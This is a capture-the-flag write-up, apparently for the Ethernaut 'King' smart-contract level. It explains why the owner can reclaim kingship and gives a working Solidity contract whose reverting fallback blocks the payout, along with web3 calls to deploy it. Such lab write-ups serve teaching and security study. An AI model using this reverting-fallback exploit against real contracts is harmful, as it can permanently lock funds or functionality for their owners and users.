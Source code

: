 The first step of this level is to claim kingship. We can do this by transferring more than 1 Ether (which is the initial prize) to the instance. Once we're the king we need to stop the level from being able to reclaim kingship when we submit the instance. Given that the level is the owner of the contract they will always be allowed to reclaim it, regardless of the size of the price, because the require also allows for the message sender to be the owner:
```solidity
require(msg.value >= prize || msg.sender == owner);
```

Therefore we need to stop the reclamation through other means. The prize funds are transferred to the existing king using the `transfer` method. If the existing king is a contract which has a `revert` in its fallback method then we can revert the transaction which is attempted to do the `transfer` and nobody will be able to claim kingship.

We can do this with a contract like so:
```solidity
pragma solidity ^0.4.24;

interface King {
    function claimKingship() payable external;
}

contract Trigger {
    bool public claimed = false;
    
    function claimKingship() payable public {
        address addr = 0xFC7aB9dA03ea5f6F98Ee385dB6E9474bC9290e33;
        King k = King(addr);
        k.claimKingship.value(msg.value)();
        claimed = true;
    }
    
    function() public payable {
        if (claimed) {
            revert();
        }
    }
}
```

And use it like:
```javascript
var c = web3.eth.contract(abi).at("0x38efc993baa767428ecb335208dce0fdefb48ec2");
c.claimKingship({from: player, value: toWei(1.01)}, (err, res) => {});
```
